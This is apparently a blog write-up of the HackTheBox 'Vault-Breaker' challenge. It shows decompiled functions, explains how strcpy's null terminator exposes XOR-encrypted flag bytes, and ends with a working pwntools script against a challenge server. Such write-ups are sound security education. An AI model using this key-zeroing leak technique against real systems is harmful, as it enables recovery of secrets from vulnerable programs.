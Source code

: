 ```yaml
---
layout: post
title: Binary Exploitation&#58; HacktheBox/Vault-Breaker 
---
```


## HacktheBox Vault-Breaker Write-up

This was a pretty simply challenge that is centered around the ```strcpy``` function.

First, we need to check the file type and securities on the binary
```
└─$ file vault-breaker
vault-breaker: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./.glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=26386d5d416b0017bc57216179a3fb116fa78667, not stripped
```
```
└─$ checksec --file=vault-breaker                                                
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   RW-RUNPATH   90 Symbols	  No	0		5		vault-breaker
```

With a canary, NX, and PIE, we won't be able to (or at least easily) do a buffer overflow or shellcode injection. Time to see what it looks like in ghidra.

### Reversing

First, let's check the ```main``` function.
```c
void main(void)

{
  long lVar1;
  
  setup();
  banner();
  key_gen();
  fprintf(stdout,"%s\n[+] Random secure encryption key has been generated!\n%s",&DAT_00103142,
          &DAT_001012f8);
  fflush(stdout);
  while( true ) {
    while( true ) {
      printf(&DAT_00105160,&DAT_001012f8);
      lVar1 = read_num();
      if (lVar1 != 1) break;
      new_key_gen();
    }
    if (lVar1 != 2) break;
    secure_password();
  }
  printf("%s\n[-] Invalid option, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
  exit(0x45);
}
```

The program generates a random key value in the ```key_gen()``` function and then prompts the user for a menu choice. The options are ```1``` for generate a new key and ```2``` to "secure" the password.

Now we need to look at the ```new_key_gen``` function.
```c
void new_key_gen(void)

{
  int iVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  ulong local_60;
  ulong local_58;
  char local_48 [40];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  local_60 = 0;
  local_58 = 0x22;
  __stream = fopen("/dev/urandom","rb");
  if (__stream == (FILE *)0x0) {
    fprintf(stdout,"\n%sError opening /dev/urandom, exiting..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  while (0x1f < local_58) {
    printf("\n[*] Length of new password (0-%d): ",0x1f);
    local_58 = read_num();
  }
  memset(local_48,0,0x20);
  iVar1 = fileno(__stream);
  read(iVar1,local_48,local_58);
  for (; local_60 < local_58; local_60 = local_60 + 1) {
    while (local_48[local_60] == '\0') {
      iVar1 = fileno(__stream);
      read(iVar1,local_48 + local_60,1);
    }
  }
  strcpy(random_key,local_48);
  fclose(__stream);
  printf("\n%s[+] New key has been genereated successfully!\n%s",&DAT_00103142,&DAT_001012f8);
  if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

This function essentially generates a new key of the length provided by the user. The vulnerability is in the ```strcpy``` function. ```strcpy``` takes the contents of ```arg[1]``` and copies them into ```arg[0]```. The catch is, that it will copy the null terminator as well. This will be an important detail in the next function we take a look at, ```secure_password```.
```c
void secure_password(void)

{
  char *__buf;
  int __fd;
  ulong uVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  char acStack136 [24];
  undefined8 uStack112;
  int local_68;
  int local_64;
  char *local_60;
  undefined8 local_58;
  char *local_50;
  FILE *local_48;
  undefined8 local_40;
  
  local_40 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  uStack112 = 0x100c26;
  puts("\x1b[1;34m");
  uStack112 = 0x100c4c;
  printf(&DAT_00101308,&DAT_001012f8,&DAT_00101300,&DAT_001012f8);
  local_60 = &DAT_00101330;
  local_64 = 0x17;
  local_58 = 0x16;
  local_50 = acStack136;
  memset(acStack136,0,0x17);
  local_48 = fopen("flag.txt","rb");
  __buf = local_50;
  if (local_48 == (FILE *)0x0) {
    fprintf(stderr,"\n%s[-] Error opening flag.txt, contact an Administrator..\n",&DAT_00101300);
                    /* WARNING: Subroutine does not return */
    exit(0x15);
  }
  sVar2 = (size_t)local_64;
  __fd = fileno(local_48);
  read(__fd,__buf,sVar2);
  fclose(local_48);
  puts(local_60);
  fwrite("\nMaster password for Vault: ",1,0x1c,stdout);
  local_68 = 0;
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
  puts("\n");
                    /* WARNING: Subroutine does not return */
  exit(0x1b39);
}
```

This function looks like a lot, but the salient detail is in this code block:
```c
  while( true ) {
    uVar1 = (ulong)local_68;
    sVar2 = strlen(local_50);
    if (sVar2 <= uVar1) break;
    putchar((int)(char)(random_key[local_68] ^ local_50[local_68]));
    local_68 = local_68 + 1;
  }
```

The flag is XORed with our key. Using the information we gathered previously about the nature of the ```strcpy``` function and the fact that anything XORed with 0 is equal to itself, we can put together the flag one character at a time.

### Pwn

To complete this challenge, we need a script that will connect to the target and input a key length 32 times from 0 to 31 (The key length is 32 bytes).
```python
#!/usr/bin/env  python3

from pwn import *

flag = ""

for i in range(23):
    p = remote("209.97.134.177", 31320) 
    p.recvuntil(b"> ", timeout=30)
    p.sendline(b"1")
    p.recvuntil(b"Length of new password (0-31): ", timeout=30)
    p.sendline(str(i))
    p.recvuntil(b"> ", timeout=30)
    p.sendline(b"2")

    # Capture response
    p.recvuntil(b"Vault: ", timeout=30)
    r = p.recvline()

    # Append unencrypted character to flag
    flag += chr(r[i])
    p.close()
    print(flag)
```

Et Voila!
